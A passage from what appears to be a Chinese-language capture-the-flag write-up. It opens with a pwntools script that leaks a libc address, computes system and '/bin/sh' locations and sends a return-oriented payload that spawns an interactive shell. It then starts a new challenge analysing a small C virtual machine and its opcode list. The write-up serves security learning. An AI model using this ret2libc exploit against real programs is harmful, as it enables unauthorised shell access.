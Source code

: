 ```python

io.sendline(payload_leak)
io.recvuntil(b'XDSEC!\n')
puts_addr = u64(io.recvline()[0:6].ljust(8, b'\x00'))
print(hex(puts_addr))

libc_offset = puts_addr - libc.sym['puts']
print(hex(libc_offset))

libc_system = libc.sym['system']
system_addr = libc_system + libc_offset
libc_bin_sh = next(libc.search(b'/bin/sh'))
bin_sh_addr = libc_offset + libc_bin_sh

payload_shell = b'a' * (0x20 - 0x08) + b'aaaaaaa\x00' + b'a' * 0x08
payload_shell += p64(ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)

print(len(payload_shell))

io.sendline(payload_shell)
io.interactive()
```

### Mini Bug \| Wings

先假装我是 docker, 跑一遍 docker file, 得到 patch 过的源码和可执行文件. 检查可执行文件的信息, 64 位程序, 保护全开.

然后仔细阅读源码, 发现这是一个用 c 写的简易虚拟机, 支持一些存取和运算指令.

```c
typedef enum {
    NOOP    = 0,
    IADD    = 1,   // int add
    ISUB    = 2,
    IMUL    = 3,
    ILT     = 4,   // int less than
    IEQ     = 5,   // int equal
    BR      = 6,   // branch
    BRT     = 7,   // branch if true
    BRF     = 8,   // branch if true
    ICONST  = 9,   // push constant integer
    LOAD    = 10,  // load from local context
    GLOAD   = 11,  // load from global memory
    STORE   = 12,  // store in local context
    GSTORE  = 13,  // store in global memory
    PRINT   = 14,  // print stack top
    POP     = 15,  // throw away top of stack
    CALL    = 16,  // call function at address with nargs,nlocals
    RET     = 17,  // return value from function
    HALT    = 18
} VM_CODE;
```
